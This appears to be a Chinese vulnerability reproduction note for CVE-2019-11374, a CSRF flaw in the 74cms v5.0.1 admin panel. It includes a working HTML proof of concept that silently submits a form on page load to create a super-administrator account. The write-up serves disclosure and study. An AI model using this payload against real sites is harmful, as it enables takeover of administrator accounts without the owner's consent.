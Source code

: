 # （CVE-2019-11374）74cms v5.0.1 后台跨站请求伪造(CSRF)漏洞

## 一、漏洞简介
在74CMS v5.0.1后台存在一个跨站请求伪造(CSRF)漏洞，该漏洞url：/index.php?m=admin&c=admin&a=add
攻击者可以利用该漏洞诱骗管理员点击恶意页面，从而任意添加一个后台管理员账户，达到进入后台，获得一个后台管理员角色的控制权。

## 二、漏洞影响
74CMS v5.0.1


## 三、复现过程
首先我们登录后台页面，并添加管理员，然后添加信息，用burp_suite抓包

1.png

当管理员登录后台后，点击攻击者发来的连接即可创建一个新的超级管理员账户

2.png

```html
<!DOCTYPE html>
<html>
  <head>
  <title> CSRF </title>
  <script type="text/javascript">
    function exec1(){
      document.getElementById('form1').submit();
    }
  </script>
  </head>
  <body onload="exec1();">
    <form id="form1" action="https://www.0-sec.org.com/index.php?m=Admin&c=admin&a=add" method="POST">
      <input type="hidden" name="username" value="admin688" />
  <input type="hidden" name="email" value="111111111@qq.com" />
      <input type="hidden" name="password" value="admin688" />
      <input type="hidden" name="repassword" value="admin688" />  
  <input type="hidden" name="role_id" value="1" />
    </form>
  </body>
</html>
```

## 参考链接
https://www.023niu.com/show-62-32-1.html

